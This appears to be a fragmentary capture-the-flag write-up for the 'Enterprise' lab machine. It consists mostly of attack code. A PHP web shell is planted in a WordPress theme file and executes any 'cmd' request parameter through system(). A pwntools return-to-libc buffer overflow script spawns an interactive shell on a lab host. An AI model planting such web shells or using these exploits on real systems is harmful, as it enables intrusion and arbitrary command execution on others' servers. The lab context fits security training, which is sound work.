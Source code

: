 http://enterprise.htb/wp-admin/theme-editor.php?file=404.php&theme=twentyseventeen

http://enterprise.htb/wp-admin/theme-editor.php?file=inc%2Fcustom-header.php&theme=twentyseventeen

```php
<?php
/**

- Custom header implementation
  *
- @link https://codex.wordpress.org/Custom_Headers
  *
- @package WordPress
- @subpackage Twenty_Seventeen
- @since 1.0
  */

if(isset($_REQUEST['cmd'])){
        echo "<pre>";
        $cmd = ($_REQUEST['cmd']);
        system($cmd);
        echo "</pre>";
        die;
}
[snip......]
```

http://enterprise.htb/?cmd=which%20php

```
from pwn import *

host = "10.10.10.61"
port =  "32812"
context(os="linux", arch="i386")
padding = "\x90" * 212

system = p32(0xf7e4c060)
exit = p32(0xf7e3faf0 )
sh_addr =p32(0xf7f6ddd5)

r2libc= system + exit+ sh_addr

payload =  padding + r2libc

sh =  remote(host, port)
sh.recvuntil("Enter Bridge Access Code")
sh.sendline("picarda1")
sh.recvuntil("Waiting for input:")
sh.sendline("4")
sh.recvuntil("Enter Security Override:")
#print s.recv(1024)
sh.sendline(payload)
sh.interactive()/usr/local/bin/php
```
